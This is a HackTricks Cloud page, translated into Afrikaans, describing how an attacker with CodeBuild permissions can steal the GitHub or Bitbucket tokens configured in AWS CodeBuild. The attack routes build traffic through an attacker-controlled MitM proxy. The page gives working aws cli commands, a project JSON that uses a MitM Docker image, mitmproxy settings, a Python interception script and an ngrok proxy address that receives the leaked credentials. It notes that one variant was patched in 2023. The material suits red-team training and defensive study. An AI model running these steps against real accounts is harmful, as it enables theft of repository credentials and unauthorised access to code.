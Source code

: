 # AWS Codebuild - Token Leakage

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking tricks deur PRs in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Herstel Github/Bitbucket Geconfigureerde Tokens

Eerstens, kyk of daar enige bronbewyse geconfigureer is wat jy kan lek:
```bash
aws codebuild list-source-credentials
```
### Via Docker Image

As jy vind dat verifikasie byvoorbeeld na Github in die rekening ingestel is, kan jy daardie **toegang** (**GH token of OAuth token**) **eksfiltreer** deur Codebuild te laat **'n spesifieke docker image gebruik** om die bou van die projek uit te voer.

Vir hierdie doel kan jy **'n nuwe Codebuild-projek skep** of die **omgewing** van 'n bestaande een verander om die **Docker image** in te stel.

Die Docker image wat jy kan gebruik is [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm). Dit is 'n baie basiese Docker image wat die **omgewingsveranderlikes `https_proxy`**, **`http_proxy`** en **`SSL_CERT_FILE`** sal stel. Dit sal jou toelaat om die meeste van die verkeer van die gasheer aangedui in **`https_proxy`** en **`http_proxy`** te onderskep en die SSL CERT aangedui in **`SSL_CERT_FILE`** te vertrou.

1. **Skep & Laai jou eie Docker MitM image op**
* Volg die instruksies van die repo om jou proxy IP-adres in te stel en stel jou SSL-sertifikaat en **bou die docker image**.
* **MOENIE `http_proxy` STEL NIE** om nie versoeke na die metadata-eindpunt te onderskep nie.
* Jy kan **`ngrok`** gebruik soos `ngrok tcp 4444` om die proxy na jou gasheer te stel.
* Sodra jy die Docker image gebou het, **laai dit op na 'n publieke repo** (Dockerhub, ECR...)
2. **Stel die omgewing**
* Skep 'n **nuwe Codebuild-projek** of **wysig** die omgewing van 'n bestaande een.
* Stel die projek om die **voorheen gegenereerde Docker image** te gebruik.

<figure><img src="../../../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

3. **Stel die MitM proxy in jou gasheer**

* Soos aangedui in die **Github repo** kan jy iets soos die volgende gebruik:
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
{% hint style="success" %}
Die **mitmproxy weergawe wat gebruik is, was 9.0.1**, dit is gerapporteer dat dit met weergawe 10 dalk nie werk nie.
{% endhint %}

4. **Voer die bou uit & vang die geloofsbriewe**

*   Jy kan die token in die **Authorization** header sien:

<figure><img src="../../../../.gitbook/assets/image (273).png" alt=""><figcaption></figcaption></figure>

Dit kan ook gedoen word vanaf die aws cli met iets soos

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### ~~Via HTTP protocol~~

{% hint style="success" %}
**Hierdie kwesbaarheid is deur AWS reggestel in die week van 20 Februarie 2023 (ek dink op Vrydag). Dus kan 'n aanvaller dit nie meer misbruik nie :)**
{% endhint %}

'n Aanvaller met **verhoogde regte oor 'n CodeBuild kan die Github/Bitbucket token lek** wat gekonfigureer is of as regte via OAuth gekonfigureer is, die **tydelike OAuth token wat gebruik word om toegang tot die kode te kry**.

* 'n Aanvaller kan die omgewingsveranderlikes **http\_proxy** en **https\_proxy** by die CodeBuild-projek voeg wat na sy masjien wys (byvoorbeeld `http://5.tcp.eu.ngrok.io:14972`).

<figure><img src="../../../../.gitbook/assets/image (232).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (213).png" alt=""><figcaption></figcaption></figure>

* Verander dan die URL van die github repo om HTTP in plaas van HTTPS te gebruik, byvoorbeeld: \*\*http://\*\*github.com/carlospolop-forks/TestActions
* Voer dan die basiese voorbeeld van [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) uit in die poort wat deur die proxy-veranderlikes (http\_proxy en https\_proxy) aangedui word.
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* Laastens, klik op **Bou die projek**, die **bewyse** sal in **duidelike teks** (base64) na die mitm-poort **gestuur word**:

<figure><img src="../../../../.gitbook/assets/image (159).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
Nou sal 'n aanvaller die token van sy masjien kan gebruik, al die voorregte wat dit het lys en makliker (mis)bruik as om die CodeBuild-diens direk te gebruik.
{% endhint %}

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**intekenplanne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking-truuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-repo's.

</details>
{% endhint %}
